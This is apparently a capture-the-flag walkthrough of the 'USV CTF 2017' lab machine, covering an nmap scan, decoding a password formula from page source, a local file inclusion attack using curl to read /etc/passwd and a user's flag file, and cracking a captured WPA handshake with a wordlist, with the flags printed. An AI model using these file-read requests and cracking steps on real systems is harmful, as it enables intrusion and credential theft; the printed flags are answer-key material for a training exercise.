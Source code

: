 ```yaml
---
title: USV CTF-2017
categories: [Proving Grounds, Play]
tags: [LFI, Recon, hccapx, PrivEsc]
image:
  path: /Vulnhub-Files/img/USV_CTF_2017/Untitled%202.png
  alt:  USV CTF 2017 Machine 🖥️
---
```



## Lets find out the Victim machines IP ⬇️IP : 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled.png)

```
{: .nolineno}
{: .nolineno}
IP : 10.0.2.35
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 14:10 IST
Nmap scan report for 10.0.2.35
Host is up (0.00057s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            ProFTPD 1.3.5b
22/tcp    open  ssh            OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 d71072d8d276b21e28110411b4e2984e (RSA)
|   256 b82961bbf18cc464ddf50ea0a22ffdaa (ECDSA)
|_  256 2b7e351042ca082066418880a04f02e6 (ED25519)
80/tcp    open  http           Apache httpd
|_http-server-header: Apache
|_http-title: Site does not have a title (text/html).
4369/tcp  open  epmd           Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    ejabberd: 34713
5222/tcp  open  jabber         ejabberd (Protocol 1.0)
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       lang: en
|       server name: localhost
|       version: 1.0
|     errors: 
|       host-unknown
|       host-unknown
|       (timeout)
|     auth_mechanisms: 
|     features: 
|     unknown: 
|     stream_id: 13835454705195693772
|     compression_methods: 
|_    capabilities: 
5269/tcp  open  jabber         ejabberd
| xmpp-info: 
|   Ignores server name
|   info: 
|     xmpp: 
|       version: 1.0
|     capabilities: 
|   pre_tls: 
|     xmpp: 
|     capabilities: 
|     features: 
|       TLS
|   post_tls: 
|     xmpp: 
|_    capabilities: 
5280/tcp  open  ssl/xmpp-bosh?
| ssl-cert: Subject: commonName=ejabberd/organizationName=stl.int
| Not valid before: 2017-10-23T20:50:49
|_Not valid after:  2018-10-23T20:50:49
|_ssl-date: TLS randomness does not represent time
15020/tcp open  http           Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
34713/tcp open  unknown
MAC Address: 08:00:27:1A:A2:58 (Oracle VirtualBox virtual NIC)
Service Info: Host: localhost; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%203.png)

Now let’s try to brute force the password >>

From Source code I got a hex encoded script code after decoding it I got this >>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%204.png)

So this code gives me a formula to calculate password ⬇️

**(stringconcat(password+4469)-234562221224)*1988=1079950212331060**

After calculating I got the password =77779673 , Lets use it now —> 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%205.png)

This is our `1st flag ➡️ Italy:46202df2ae6c46db8efc0af148370a78`

Now lets enumerate port 15020 >>

while looking into the ssl certificate  I got this next flag ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%206.png)

Our next `2nd flag ➡️ a51f0eda836e4461c3316a2ec9dad743`

Further Enumeration I got this >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%207.png)

So lets see the source code ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%208.png)

Now lets access the download.php file >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%209.png)

So I see we have LFI but I can’t execute it through web so lets use `curl`.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/etc/passwd" https://10.0.2.35:15020/blog/download.php -k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
kevin:x:1001:1001::/home/kevin:
epmd:x:110:113::/var/run/epmd:/bin/false
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```
{: .nolineno}
{: .nolineno}

Now I got it , let ‘s access the flag.txt from kevin home.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/home/kevin/flag.txt" https://10.0.2.35:15020/blog/download.php -k
Croatia: e4d49769b40647eddda2fe3041b9564c
```
{: .nolineno}
{: .nolineno}

Now I downloaded the whole /vault/ directory ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2010.png)

Now lets find the files inside the vault ➡️

```bash
find ./ -type f | grep -v .html
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2011.png)

Now lets see the cap file ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2012.png)

Now lets convert this WPA cap file to the format of hccapx hash format so that we can use our rockyou.zip file decode the hash.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2014.png)

so the password is `minion.666` let’s use this to login into the port 15020 with user as `admin`.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2015.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2016.png)

`flag 4 ➡️ Philippines: 551d3350f100afc6fac0e4b48d44d380`

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }